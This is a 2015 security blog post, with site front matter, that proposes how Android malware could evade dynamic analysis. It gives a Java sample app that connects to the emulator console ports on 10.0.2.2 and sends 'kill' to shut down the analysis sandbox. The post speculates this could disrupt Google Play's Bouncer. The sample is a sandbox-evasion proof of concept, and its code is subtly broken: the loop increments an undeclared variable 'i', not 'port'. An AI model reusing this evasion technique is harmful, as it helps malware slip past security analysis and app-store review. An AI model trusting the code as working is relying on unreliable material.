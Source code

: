 ```yaml
---
layout: post
title:  "Using the Android qemu console for dynamic analysis evasion"
date:   2015-02-10 17:34:24
author: qkaiser
excerpt: |
    I’ve been playing with the android emulator recently and I kept thinking about how malwares could be using that emulator console to - quite aggresively - evade dynamic analysis by just killing the emulator that is used to analyze them.
comments: true
categories: android security malware
---
```



I've been playing with the android emulator recently and I kept thinking about
how malwares could be using that emulator console to - quite aggresively -
evade dynamic analysis by just killing the emulator that is used to analyze
them.

I wrote a simple application example that will kill the emulator when you run
the application in it, whatever the port on which the emulator is listening.

The example I provide is really simple but I really like the idea of just
keeping annoying a malware reverser by killink its sandbox :)

### Sample application

{% highlight java %}
public class MainActivity extends Activity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        new Connection().execute();
    }

    private class Connection extends AsyncTask {
        @Override
        protected Object doInBackground(Object... arg0) {
            evade();
            return null;
        }
    }

    private void evade() {
        try{
            for(int port=5554; port <= 5584; i+=2) {
                Socket s = new Socket("10.0.2.2", port);
                BufferedWriter out = new BufferedWriter(
                    new OutputStreamWriter(s.getOutputStream())
                );
                out.write("kill\n");
                out.flush();
                out.close();
                s.close();
            }
        } catch (Exception ex) {
            ex.getMessage();
        }
    }
}
{% endhighlight %}

In this example, the application will try to connect to any port where an
emulator is allowed to listen and issue a `kill` command if connection is
successful.

### Examples in the wild

I've never heard of any Android malwares using this kind of technique but if
you have some good examples, please let me know !

### Security Impact

I'm not sure there is any real security impact here but as Bouncer is using
this emulator to perform dynamic analysis of applications being pushed to the
Google Play, it might be possible to make Bouncer go crazy by uploading a
malicious application.
